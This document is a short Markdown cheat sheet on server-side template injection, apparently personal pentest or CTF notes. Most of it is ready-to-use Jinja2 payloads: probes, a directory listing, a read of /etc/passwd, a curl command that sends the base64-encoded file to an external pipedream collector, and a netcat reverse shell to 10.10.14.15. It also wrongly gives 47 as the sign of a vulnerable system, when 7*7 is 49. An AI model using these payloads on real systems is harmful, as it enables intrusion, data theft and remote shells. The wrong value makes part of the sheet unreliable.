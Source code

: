 # SSTI (Server Side Template Injection)

> Tool

    tplmap

## Test

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

    47  -> system is vulnerable

## Get server info

    {{g}}
    {{self}}
    {{request}}
    {{config}}

## function that can be called for RCE

    {{url_for}}
    {{[].__class__.__base__.__subclasses__()}}

### url_for

> List directory

    {{url_for.__globals__.os.__dict__.listdir('/home')}}

> Read file

    {{url_for.__globals__.__builtins__.open('/etc/passwd').read()}} 

### [].__class__.__base__.__subclasses__()   -> to retest

Looking for useful fonctions:

    {{ [].__class__.__base__.__subclasses__() }}

Output exemple

    [725] subprocess.Popen

Send data:

```bash
{{ [].__class__.__base__.__subclasses__().pop(725)("curl https://xxx.m.pipedream.net -d \"test=$(cat /etc/passwd |base64)\"", shell=True)}}
```

Getting RCE:

```bash
{{ [].__class__.__base__.__subclasses__().pop(725)("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 1337 >/tmp/f", shell=True)}}
```

## Sources

- <https://ctftime.org/writeup/11014>
- <https://medium.com/bugbountywriteup/tokyowesterns-ctf-4th-2018-writeup-part-3-1c8510dfad3f>
